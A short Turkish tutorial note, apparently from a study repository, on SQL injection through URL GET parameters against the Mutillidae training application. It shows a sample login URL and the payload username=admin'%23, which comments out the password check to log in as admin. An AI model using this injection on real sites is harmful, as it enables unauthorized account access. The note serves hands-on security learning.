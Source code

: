 # SQL Get Methodu

#### 1. Siteye giriş yaptıktan sonra ```URL```'yi dğeiştirerek giriş yapmayı deniyoruz
#### 2. ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=james&password=123456&user-info-php-submit-button=View+Account+Details```
#### 3. ```URL```nin ```&username=admin'%23&``` olarak değiştiriyoruz 
### ```%23``` html'de ```#``` anlamına geliyor
